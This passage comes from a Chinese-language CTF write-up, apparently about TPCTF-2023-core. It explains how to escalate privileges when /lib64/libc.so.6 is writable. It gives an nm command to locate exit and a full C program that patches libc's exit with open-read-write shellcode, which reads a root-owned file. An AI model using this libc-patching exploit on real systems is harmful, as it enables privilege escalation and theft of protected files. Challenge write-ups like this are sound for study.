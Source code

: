#### libc 可写

相当于上种方法的进阶版，直接 patch libc 中的某个函数来实现利用（和 ld.so + suid 提权时的构造是一个思路），在 `/lib64/libc.so.6` 可写时可以利用。

例如 [Chal-0x01: TPCTF-2023-core](#chal-0x01-tpctf-2023-core) 中，可以改 libc 的 exit 函数为 orw，在 shell 中输入 exit 即可完成利用：

- 找偏移：

```bash
nm -D ./libc.so.6 | grep exit

00000000000bf4f0 T _exit@@GLIBC_2.2.5
```

- 利用代码：

```c
// patch libc 的 exit 函数为 orw 的 shellcode，然后直接 exit。

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FILENAME "/lib64/libc.so.6" // 文件路径
#define OFFSET 0xBF4F0              // 写入偏移量
unsigned char data[] = {
    104, 96,  102, 1,   1,   129, 52,  36,  1,   1,   1,   1,   72,  184,
    47,  114, 111, 111, 116, 47,  102, 108, 80,  72,  137, 231, 49,  210,
    49,  246, 106, 2,   88,  15,  5,   72,  137, 199, 49,  192, 106, 64,
    90,  72,  137, 230, 15,  5,   106, 1,   95,  72,  137, 194, 72,  137,
    230, 106, 1,   88,  15,  5,   49,  255, 106, 60,  88,  15,  5
};

int main() {
    FILE *file = fopen(FILENAME, "r+b");
    if (file == NULL) {
        perror("Failed to open file");
        return 1;
    }

    // 将文件指针移动到指定偏移量
    if (fseek(file, OFFSET, SEEK_SET) != 0) {
        perror("Failed to seek file");
        fclose(file);
        return 1;
    }

    // 写入数据
    if (fwrite(data, sizeof(char), sizeof(data), file) != sizeof(data)) {
        perror("Failed to write data");
        fclose(file);
        return 1;
    }

    fclose(file);
    return 0;
}
```

